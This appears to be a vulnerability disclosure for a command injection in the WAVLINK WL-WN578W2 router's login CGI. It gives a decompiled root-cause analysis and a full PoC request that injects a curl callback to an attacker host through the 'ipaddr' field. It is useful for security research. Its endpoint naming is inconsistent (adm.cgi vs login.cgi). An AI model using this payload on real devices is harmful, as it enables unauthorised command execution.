




# WAVLINK WL-WN578W2 M78W2\_V221110 Command Injection in Login Module

PS:


1.  Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device (WAVLINK WL-WN578W2) for accurate vulnerability verification.

2.  This command injection vulnerability requires **authenticated access**. The `password` parameter uses a dynamic encryption method (value changes with requests/logins), so attackers must first obtain valid credentials or a captured encrypted `password` to exploit the vulnerability.

## Overview

A command injection vulnerability exists in the login module of WAVLINK WL-WN578W2 (firmware version: M78W2\_V221110). The vulnerability resides in the `ftext` function (entry point) and `sub_401340` function (core login logic) within the `login.c` source file, which processes the `ipaddr` parameter without input sanitization. When submitting a POST request to the `/cgi-bin/adm.cgi` (a program for handling login requests on the device) endpoint with the `page=login` action, authenticated attackers can inject arbitrary system commands via the `ipaddr` parameter. This enables unauthorized execution of system commands, access to sensitive device information, or full compromise of the device.


## Details


*   **Vendor**: WAVLINK

*   **Vendor Website**: [https://www.wavlink.com/](https://www.wavlink.com/) (official website)

*   **Product**: WAVLINK WL-WN578W2

*   **Firmware Version**: M78W2\_V221110 (Software version: M78W2\_V221110)

*   **Firmware Download**: Available via WAVLINK official website or device web management interface

*   **Affected Endpoint**: `/cgi-bin/adm.cgi` (POST method, a program for processing device login requests)

*   **Vulnerable Code**:


    *   `ftext` function in `login.c` (handles login request entry logic)

    *   `sub_401340` function in `login.c` (constructs and executes system commands)

*   **Vulnerability Type**: Command Injection

*   **CVE ID**: Pending

*   **Impact**:

1.  Execute arbitrary system commands on the device;

2.  Read sensitive files (e.g., device configuration, stored credentials);

3.  Modify device settings or plant malicious scripts;

4.  Pivot to internal networks (if the device acts as a gateway)

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability stems from improper input validation in the device’s login processing workflow. The `ipaddr` parameter—controlled by the user—is directly concatenated into a system command without filtering special characters, leading to command injection. Below is the detailed code flow and root cause analysis:

#### 1. Request Entry & Input Parsing (`ftext` Function)

The `ftext` function is the entry point for handling login-related requests, with key execution steps:


*   **Referer Check**: First calls `sub_403EDC` to verify the `HTTP_REFERER` header (to prevent cross-origin request forgery), but this does not block subsequent command injection.

*   **Request Body Reading**: Retrieves the `CONTENT_LENGTH` header to determine the size of the POST request body, allocates memory via `malloc`, and reads the entire request body into a buffer (`v6`) using `fgets`.

*   **Parameter Routing**: Parses the `page` parameter from the request body via `sub_4036B4` (a custom parameter-parsing function). When `page=login` (indicating a login action), the function invokes `sub_401340(v6, 0x400000)` to process core login logic, passing the full request body (containing `ipaddr`, `username`, `password`, etc.) to `sub_401340`.

#### 2. Core Login Logic & Command Injection (`sub_401340` Function)

The `sub_401340` function handles credential verification and post-login configuration, and contains the vulnerable code segment:


*   **Parameter Parsing**: Extracts the `ipaddr` parameter from the input buffer (passed by `ftext`) using `sub_4036B4("ipaddr", a1, 0)`, and stores the parsed value in the `v9` variable.

*   **Credential Verification**: Compares the encrypted `password` parameter from the request with the device’s stored credentials (retrieved via `wlink_uci_get_value`). Only after successful verification does the function proceed to the command construction step.

*   **Vulnerable Command Construction**: After passing credential checks, the function constructs a system command using `sprintf` and executes it via `system`:


```
memset(v35, 0, sizeof(v35));

// Concatenate "ipaddr" (v9) directly into the command string

sprintf(v35, "/sbin/applogin.sh del %s >/dev/null 2>&1", v9);&#x20;

system(v35); // Execute the unsanitized command
```


*   **Root Cause**: The `ipaddr` parameter (`v9`) is not filtered for command delimiters (e.g., `;` for command separation, `&&` for logical AND, `|` for pipe, `#` for comment). Attackers can use these delimiters to "break out" of the original `applogin.sh`` del` command context and append arbitrary malicious commands.







## Proof of Concept (PoC)

### PoC: Inject `curl` Command to Verify Execution

This PoC uses the `ipaddr` parameter to inject a `curl` command, which sends a request to an attacker-controlled server—proving successful command execution. A **valid encrypted **`password` (captured via legitimate login) is required.

#### Full PoC HTTP Request


```
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 300
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

newUI=1&page=login&username=admin&langChange=0&ipaddr=%3A%3Affff%3A192.168.10.154;curl http://192.168.10.154:1234#&login_page=login.shtml&homepage=main.shtml&sysinitpage=sysinit.shtml&wizardpage=wizard.shtml&hostname=192.168.10.1&key=M55373357&password=a870e4ba57ee340c2c29f6e7dbd17abb&lang_select=cn
```

#### PoC Execution Results


*   **Failure (Wrong Password Hash)**: If the `password` parameter uses an invalid/incorrect encrypted hash, the device rejects the login request before reaching the command execution step. No `curl` request is sent to the attacker’s server, and the PoC fails.





*   **Success (Right Password Hash)**: If the `password` parameter uses a valid encrypted hash, the device passes credential verification, executes the injected `curl` command, and the attacker’s server records the request.




